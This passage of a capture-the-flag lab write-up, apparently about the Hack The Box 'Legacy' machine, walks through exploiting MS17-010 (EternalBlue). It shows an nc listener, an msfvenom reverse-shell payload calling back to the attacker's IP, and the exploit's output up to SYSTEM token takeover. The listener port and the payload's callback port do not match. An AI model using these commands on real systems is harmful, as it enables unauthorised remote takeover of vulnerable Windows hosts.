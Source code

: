 ```console
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
```

Cool, so there are 2 of the group that this machine is vulnerable to and one that it is *likely* vulnerable to. I want to look at the vulnerabilities before moving forward to see what is more interesting or most likely to lead to a takeover.

Enter [CVE-2017-0144](https://www.exploit-db.com/exploits/42315). This is from the NSA toolset that the Shadow Brokers released. This is going to be my first choice, mostly because its really interesting but also because I think it should lead to an easy RCE.

So first, I want to start my listener:

```console
root@apollo:~/htb/legacy# nc -lvnp 42069
listening on [any] 42069 ...
```

since we are doing this sans metasploit we need to create our shellcode. I am going to use an **unstaged** (all the shellcode is contained in the code being passed) **reverse shell** (the remote machine calls back to my attacking machine). We will want to create it as an **.exe** for the **x86 Windows platform**, which is the type of target we are attacking.

```console
root@apollo:~/htb/legacy# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.75 LPORT=44 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy_shell.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy_shell.exe
```
and now we ship off the exploit:

```console
root@apollo:~/htb/legacy# python ms17010.py 10.10.10.4 legacy_shell.exe
Traceback (most recent call last):
  File "ms17010.py", line 3, in <module>
    from mysmb import MYSMB
ImportError: No module named mysmb
```

Whoops, it does say that I need `mysmb.py` in like line two of the exploit. My bad - let's try again:

```console
root@apollo:~/htb/legacy# python ms17010.py 10.10.10.4 legacy_shell.exe
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82246bb8
SESSION: 0xe10f9408
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1b1df10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1b1dfb0
overwriting token UserAndGroups
Sending file N0KFUJ.exe...
```